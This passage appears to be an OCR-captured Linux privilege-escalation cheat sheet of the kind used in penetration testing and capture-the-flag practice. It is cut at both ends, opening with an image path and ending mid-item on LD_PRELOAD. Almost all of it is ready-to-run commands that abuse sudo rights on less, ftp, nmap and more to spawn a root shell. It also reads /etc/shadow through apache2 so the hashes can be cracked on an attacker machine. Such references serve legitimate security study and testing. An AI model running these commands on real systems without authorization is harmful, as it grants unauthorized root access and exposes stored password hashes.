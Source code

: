 ```
sudo /usr/bin/less /etc/profile
!/bin/sh
```

### FTP

```
sudo /usr/bin/ftp
!/bin/bash
```

### nmap

* Method 1

```
TF=$(mktemp)
echo 'os.execute("/bin/bash")' > $TF
sudo nmap --script=$TF
```

* Method 2

```
sudo nmap --interactive
!bash
```

* Method 3

```
echo "os.execute('/bin/sh')" > shell.nse && sudo nmap --script=shell.nse
```

#### more

```
TERM= sudo -E more /etc/profile
!/bin/bash
```

### Apache2

```
sudo -l 
(root) NOPASSWD: /usr/sbin/apache2
sudo apache2 -f /etc/shadow
```

* Copy hash to attacker box and crack with john

### Sudo -l LD\_PRELOAD

* Sudo can be configured to inherit certain environment variables from the user's environment.
* Check which environment variables are inherited (look for the env\_keep+=LD\_PRELOAD options):
* Output you're looking for
